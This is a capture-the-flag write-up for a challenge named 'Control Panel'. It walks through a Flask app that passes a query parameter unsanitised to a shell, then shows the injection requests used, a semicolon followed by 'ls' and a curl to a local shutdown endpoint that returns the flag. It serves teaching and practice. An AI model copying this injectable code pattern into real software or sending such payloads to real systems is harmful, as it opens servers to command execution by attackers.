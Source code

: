 Control Panel

Point count: 150pts

Provided files: control-panel.zip

Description: Agent, we've identified what appears to be ARIA's control panel. Luckily there's no authentication required to interact with it. Can you take down ARIA once and for all?

We are presented with a website with source code. Let's examine the main.py file

```
from flask import Flask, render_template, request
from subprocess import getoutput

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    command = request.args.get("command")
    if not command:
        return render_template("index.html")
    
    arg = request.args.get("arg")
    if not arg:
        arg = ""

    if command == "list_processes":
        return getoutput("ps")
    elif command == "list_connections":
        return getoutput("netstat -tulpn")
    elif command == "list_storage":
        return getoutput("df -h")
    elif command == "destroy_humans":
        return getoutput("/www/destroy_humans.sh " + arg)
    
    return render_template("index.html")
```

From this, we can see command injection within the second to last line
`return getoutput("/www/destroy_humans.sh " + arg)`


*Command injection: occurs when an application passes unsafe user-supplied data to a system shell*

In this case, the arg variable can be modified to allow shell commands to be ran on the website

We can test this by opening up burpsuite and passing this header:

`GET /?command=destroy_humans&arg=;%20ls HTTP/1.1`

Why the semicolon? This is used as a command separator. Semicolons in bash allows you to execute multiple commands in a single line. Without it, the input `arg` would be treated as a parameter to `destroy_humans.sh`, rather than a seperate command. 

And it works! We are able to see the system files inside!

But where is the flag? If we examine the source code further, there is a file called destroyer.py

```
#!/usr/bin/env python3
import subprocess, json
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

def get_json(content):
	return json.dumps(content).encode()

def http_server(host_port,content_type="application/json"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			def resp_ok():
				self.send_response(200)
				self.send_header("Content-type", content_type)
				self.end_headers()
			if self.path == '/status':
				resp_ok()
				self.wfile.write(get_json({'status': 'ready to destroy'}))
				return
			elif self.path == "/destroy":
				resp_ok()
				self.wfile.write(get_json({'status': "destruction complete!"}))
				return
			elif self.path == '/shutdown':
				resp_ok()
				self.wfile.write(get_json({'status': 'shutting down...'}))
				self.wfile.write(get_json({'status': 'SIVBGR{no-flag-4-u}'}))
				return
			self.send_error(404, '404 not found')
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

http_server(('127.0.0.1',3000))
```

The file states that the endpoint `/shutdown` will reply with a json reply of the flag

But how can we grab it? Simply visiting /shutdown via a browser will return a 404 not found.

We can use curl! Since we have command injection, if we pass curl and curl the endpoint from the server's perspective, we can grab the flag

So, your command should look something like this

`GET /?command=destroy_humans&arg=;%20curl%20-s%20localhost:3000/shutdown HTTP/1.1`

*Note: -s was supplied to prevent the server from replying with the download bar that curl usually outputs.*

We need to supply url encoding inside of burpsuite. %20 represents a space.

Once ran, we get the flag!

Final flag: `SIVBGR{g00dby3_ARI4}`

Final command injection exploit:

![image](https://github.com/sa1181405/pbchocolate-private-writeup-making/assets/170969470/c9d3b0c1-67f2-4da6-ba03-23ede1e31dd4)



